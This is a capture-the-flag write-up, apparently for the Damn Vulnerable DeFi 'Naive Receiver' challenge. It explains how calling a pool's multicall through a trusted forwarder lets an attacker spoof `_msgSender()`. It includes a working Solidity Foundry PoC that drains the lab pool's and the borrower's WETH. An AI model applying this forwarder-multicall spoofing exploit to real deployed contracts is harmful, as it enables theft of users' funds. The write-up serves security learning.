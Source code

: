 ## It's possible to trick `_msgSender()` to return an arbitrary address using the forwarder and multicall contracts, and this can be used to drain the pool tokens

When the forwarder interacts with the pool, the function `_msgSender()` returns the right-most 20 bytes of `msg.data` as the caller address. These bytes are placed by the forwarder in the execute function before performing the call to the pool:

` bytes memory payload = abi.encodePacked(request.data, request.from);`

However, if the `multicall` function of the pool is called through the forwarder, the "trusted" last 20 bytes will be added at the end of the multicall data, but not at the end of each sub-call to be performed within the multicall.

So an attacker can add an arbitrary address at the end of the data for a `withdraw` call, and this address will be taken as the `msg.sender`. Using this mechanism, the attacker can pass the address of the contract deployer or fee receiver, allowing him to drain all the funds from the contract.

Notice: The CTF also requires recovering the 10 WETH on the flash loan borrower contract. This is possible by performing 10 calls to the flashLoan function, which will take a fixed fee of 1 WETH from the borrower. By calling it 10 times, all the borrower's funds are passed to the pool, and then we can use the above mechanism to take both the initial funds and the fees.

### PoC
```solidity
    function test_naiveReceiver() public 
    checkSolvedByPlayer 
    {
        ///// 1. preparing multicall params /////
        bytes[] memory multicall_param = new bytes[](11);
        // call 10 times flashloan to pass the borrower's funds to the pool via fee-taking
        for (uint8 i = 0; i<10; i++) {
            multicall_param[i] = abi.encodeWithSignature(
                "flashLoan(address,address,uint256,bytes)",
                address(receiver),
                address(weth),
                1, // the amount doesn't matter, cause the fee is fixed to 1 WETH
                ""
            );  
        }

        // THE ATTACK HEART IS HERE
        // call withdraw with arbitrary latest 20 bytes AKA the deployer address 
        multicall_param[10] = abi.encodeWithSignature(
            'withdraw(uint256,address)',
            weth.balanceOf(address(pool)) + 10e18, // +fees
            payable(recovery),
            deployer // attack -> This will be the latest 20 bytes of the call 
        );

        // multicall data
        bytes memory multicallData = abi.encodeWithSignature(
            "multicall(bytes[])",
            multicall_param
        );  

        ///// 2. prepare params for forwarder.execute function //////
        // 'request' param
       BasicForwarder.Request memory reqForwarder = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 1e8, // any that covers the gas usage 
            nonce: forwarder.nonces(player),
            data: multicallData, // our prepared call data
            deadline: block.timestamp + 5 days // any
       });

        // 'signature' param -> google "eip-712' and "eip-192" to understand
        bytes32 request = keccak256(
        abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(reqForwarder))
        );


        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk,request);
        bytes memory signature = abi.encodePacked(r, s, v);

        ///// 3. execute call /////
        forwarder.execute(reqForwarder, signature);
    }
```

